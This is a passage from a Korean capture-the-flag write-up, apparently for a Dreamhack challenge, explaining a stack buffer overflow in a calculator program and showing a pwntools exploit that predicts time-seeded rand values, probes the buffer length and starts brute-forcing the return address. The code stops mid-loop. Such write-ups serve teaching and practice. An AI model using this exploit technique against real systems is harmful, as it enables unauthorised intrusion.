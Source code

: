 위의 결과에서 10번의 작업으로 오버플로우를 시킬 수 있음을 알 수 있습니다.
### Buffer-Overflow

num 배열에 있는 두 숫자가 모두 0보다 작으면, 이름을 입력받고 출력해주는데, 입력 글자 수를 제한하지 않기 때문에 버퍼 오버플로우가 발생합니다.

```c
void calculator()
{
	char name[100];
	...
	for (i = 0; i < 12; i++)
	{
		type = 1 - type;
		if (num[0] < 0 && num[1] < 0)
		{
			printf("Name? ");
			read(0, name, 0x100);
			printf("%s, Hello\n", name);
		}
		...
	}
}
```
## 익스플로잇 1 : secret 폴더 키 얻기

위에서의 논의와 합하면 2번의 버퍼 오버플로우를 발생시킬 수 있음을 알 수 있습니다. pie와 canary가 걸려있는지 아닌지는 모르기 때문에 memory leak을 해보면, 둘 다 걸려있는 것을 확인할 수 있습니다. 첫 번째 버퍼 오버플로우에서 canary 값을 구하고, 두 번째 버퍼 오버플로우에서 간단한 브루트포싱으로 RET 부분의 마지막 바이트 조작을 통해 directory_key 함수를 실행시킬 수 있도록 합니다. 아래는 익스 코드입니다.

```python
from pwn import *
from ctypes import *
  
buf_len = 0
l = cdll.LoadLibrary('/usr/lib/x86_64-linux-gnu/libc.so.6')
  
def st():
	p = remote('host3.dreamhack.games', 8561)
  
	v0 = int(l.time(0) + 0)
	l.srand(v0)
	win_cal = ['+', '+', '*', '*', '*', '*', '+', '*', '*', '+']
	for i in range(0, 10) :
		num = int(l.rand())
		if win_cal[i] == '+':
			p.sendlineafter(b'> ', str(num + 1).encode())
		else :
			p.sendlineafter(b'> ', str(num).encode())
  
	return p
  
for i in range(100, 120):
	p = st()
	p.sendafter(b'Name? ', b'a' * i)
	res = p.recvline().split(b',')[0]
	p.close()
	if len(res) > i + 4 :
		buf_len = i
		print(f"buf_len = {buf_len}")
		break
  
for i in range(0, 256):
	try:
		p = st()
```